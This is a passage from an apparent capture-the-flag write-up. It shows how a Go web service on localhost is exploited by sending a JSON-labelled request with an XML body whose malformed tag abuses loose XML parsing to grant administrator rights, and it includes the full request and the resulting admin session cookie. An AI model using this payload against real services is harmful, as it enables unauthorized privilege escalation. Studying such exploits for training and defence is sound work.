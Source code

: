 ### Exploitation

### Step 1: Send crafted XML payload to `/user`
We can craft an XML request that sets `IsAdmin=true`:

```http
POST /user HTTP/1.1
Host: 127.0.0.1:5008
Content-Type: application/json
Content-Length: 97

"<User>
 <username>3xPl01t3r</username>
 <password>3xPl01t3r</password>
 <A:->True</A:->
</User>"
```

- Even though the outer request is sent as `application/json`, the Go backend will first try XML unmarshalling.  
- Because of Go’s **loose XML parsing**, the fake tag `<A:->True</A:->` sets `IsAdmin=true`.

**Response:**
```http
HTTP/1.1 200 OK
Set-Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0...
Authorized
```

![Login step screenshot](/assets/img/loginGobrr.png)
